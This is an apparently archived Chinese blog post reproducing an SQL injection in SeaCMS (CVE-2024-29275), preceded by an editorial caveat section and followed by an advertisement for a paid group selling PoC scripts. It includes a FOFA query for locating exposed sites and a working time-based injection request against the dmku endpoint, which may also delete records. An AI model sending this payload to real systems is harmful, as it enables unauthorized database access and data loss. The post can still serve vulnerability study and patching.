




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：dmkucomponentaccessible;ac=del/type=list; MySQLsleep; config/authunknown

- **操作与副作用边界（1）**：ac=del检测可能删除弹幕记录，应标副作用而非普通无害扫描。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **适用与权限边界（2）**：仅一次5秒截图无基线复测/源码，获取系统权限是额外未给链。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：海洋CMS应并SeaCMS英文目录；12.9是测试版或范围需官方核。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **来源与引用处置（4）**：安全版本/原始公告缺失，超过半篇星球广告，检测脚本付费门槛。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  「漏洞复现」海洋CMS /js/player/dmplayer/dmku/ SQL注入漏洞(CVE-2024-29275)   
冷漠安全  冷漠安全   2024-06-14 09:01  
  
  
  
**0x01 免责声明**  
  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
0x02  
  
**产品介绍**  
  
海洋CMS是一套专为不同需求的站长而设计的内容管理系统，灵活、方便、人性化设计、简单易用是最大的特色，可快速建立一个海量内容的专业网站。海洋CMS基于PHP+MySql技术开发，完全开源免费 、无任何加密代码。  
  
0x03  
  
**漏洞威胁**  
  
海洋CMS影视管理系统 /js/player/dmplayer/dmku/ 接口存在SQL注入漏洞，未经授权攻击者可通过该漏洞获取数据库敏感信息，进一步利用可获取服务器权限，导致网站处于极度不安全状态。  
  
影响范围：SeaCMS 12.9  
  
0x04  
  
**漏洞环境**  
  
FOFA:  
```
app="海洋CMS"
```  
  
  
  
  
0x05  
  
**漏洞复现**  
  
POC  
```
GET /js/player/dmplayer/dmku/?ac=del&id=(select(0)from(select(sleep(5)))v)&type=list HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```  
  
延时5秒  
  
  
  
  
0x06  
  
**批量脚本验证**  
  
Nuclei验证脚本已发布  
知识星球：冷漠安全  
  
  
  
  
0x07  
  
**修复建议**  
  
关闭互联网暴露面或接口设置访问权限  
  
升级至安全版本  
  
0x08  
  
**加入我们**  
  
漏洞详情及批量检测POC工具请前往知识星球获取  
  
知识星球：冷漠安全交个朋友，限时优惠券：加入立减25星球福利：每天更新最新漏洞POC、资料文献、内部工具等  
  
  
  
  
「星球介绍」：  
  
本星球不割韭菜，不发烂大街东西。欢迎进来白嫖，不满意三天退款。  
  
本星球坚持每天分享一些攻防知识，包括攻防技术、网络安全漏洞预警脚本、网络安全渗透测试工具、解决方案、安全运营、安全体系、安全培训和安全标准等文库。  
  
本星主已加入几十余个付费星球，定期汇聚高质量资料及工具进行星球分享。  
  
  
「星球服务」：  
  
  
加入星球，你会获得：  
  
  
♦ 批量验证漏洞POC脚本  
  
  
♦ 0day、1day分享  
  
  
♦ 汇集其它付费星球资源分享  
  
  
♦ 大量的红蓝对抗实战资源  
  
  
♦ 优秀的内部红蓝工具及插件  
  
  
♦ 综合类别优秀Wiki文库及漏洞库  
  
  
♦ 提问及技术交流  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
